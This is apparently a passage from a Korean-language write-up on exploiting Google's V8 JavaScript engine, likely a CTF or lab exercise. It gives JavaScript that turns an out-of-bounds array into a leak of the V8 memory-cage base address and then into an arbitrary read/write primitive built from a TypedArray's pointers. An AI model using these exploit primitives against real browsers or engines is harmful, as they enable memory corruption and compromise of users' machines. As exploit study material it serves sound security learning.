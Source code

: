 ![image](https://github.com/user-attachments/assets/5365c810-2f1e-4262-b4fb-8fe34df1ae1a)

![image](https://github.com/user-attachments/assets/f5667128-15d6-4023-9705-624b5d738064)

![image](https://github.com/user-attachments/assets/3493d4db-de6a-40cc-83c3-da9c8e06fa05)

`TypedArray`의 `external_pointer`를 leak하여 virtual memory cage의 base address를 얻을 수 있다.

```js
// get v8 base
let v8_base = ftoi(oob_arr[22]) & 0xffffffff00000000n;
console.log(`[+] v8_base == ${hex(v8_base)}`);
```

![image](https://github.com/user-attachments/assets/02d79eef-bb80-4437-b2d6-66d3a629d9ad)

### Arbitrary address read/write

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};
let typed_arr;

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
    typed_arr = new BigUint64Array(1);
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(typed_arr);
```

![image](https://github.com/user-attachments/assets/7f91ee22-ab30-4969-b4df-c3444b77cafb)

![image](https://github.com/user-attachments/assets/9ebc3192-50cd-4095-a19a-cfac4557441b)

`TypedArray`의 `base_pointer`와 `external_pointer`의 합(`data_ptr`)은 첫 번째 element가 저장된 주소가 된다.

![image](https://github.com/user-attachments/assets/a0db44c1-e23d-4928-8a01-8056966beaa3)

OOB를 이용하여 `base_pointer`와 `external_pointer`를 조작하면 임의의 주소에 접근하여 값을 읽거나 쓸 수 있다.

```js
// arbitrary address read/write
function aarw(addr, value = null) {
    oob_arr[22] = itof(addr); // external_pointer of |typed_arr|
    oob_arr[23] = itof(0n); // base_pointer of |typed_arr|
    if (value == null) {
        // if |value| is null, read 8 bytes from |addr|
        return typed_arr[0];
    } else {
        // if |value| isn't null, write |value| to |addr|
        typed_arr[0] = value;
    }
}
```
